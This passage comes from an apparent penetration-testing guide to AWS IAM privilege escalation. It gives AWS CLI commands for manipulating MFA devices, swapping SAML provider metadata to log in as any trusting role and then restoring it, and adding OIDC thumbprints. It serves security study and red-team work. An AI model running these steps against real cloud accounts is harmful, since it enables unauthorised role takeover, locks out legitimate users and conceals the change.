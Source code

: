 **Bash Command:**

```bash
aws iam resync-mfa-device --user-name <username> --serial-number <serial_number> \
    --authentication-code1 <code1> --authentication-code2 <code2>
```

**Impact:** Indirect privilege escalation by adding or manipulating MFA devices.

### `iam:UpdateSAMLProvider`, `iam:ListSAMLProviders`, (`iam:GetSAMLProvider`)

With these permissions you can **change the XML metadata of the SAML connection**. Then, you could abuse the **SAML federation** to **login** with any **role that is trusting** it.

Note that doing this **legit users won't be able to login**. However, you could get the XML, so you can put yours, login and configure the previous back

```bash
# List SAMLs
aws iam list-saml-providers

# Optional: Get SAML provider XML
aws iam get-saml-provider --saml-provider-arn <ARN>

# Update SAML provider
aws iam update-saml-provider --saml-metadata-document <value> --saml-provider-arn <arn>

## Login impersonating roles that trust the SAML provider

# Optional: Set the previous XML back
aws iam update-saml-provider --saml-metadata-document <previous-xml> --saml-provider-arn <arn>
```

> [!NOTE]
> TODO: A Tool capable of generating the SAML metadata and login with a specified role

### `iam:UpdateOpenIDConnectProviderThumbprint`, `iam:ListOpenIDConnectProviders`, (`iam:`**`GetOpenIDConnectProvider`**)

(Unsure about this) If an attacker has these **permissions** he could add a new **Thumbprint** to manage to login in all the roles trusting the provider.

```bash
# List providers
aws iam list-open-id-connect-providers
# Optional: Get Thumbprints used to not delete them
aws iam get-open-id-connect-provider --open-id-connect-provider-arn <ARN>
# Update Thumbprints (The thumbprint is always a 40-character string)
aws iam update-open-id-connect-provider-thumbprint --open-id-connect-provider-arn <ARN> --thumbprint-list 359755EXAMPLEabc3060bce3EXAMPLEec4542a3
```

## References

- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{{#include ../../../banners/hacktricks-training.md}}
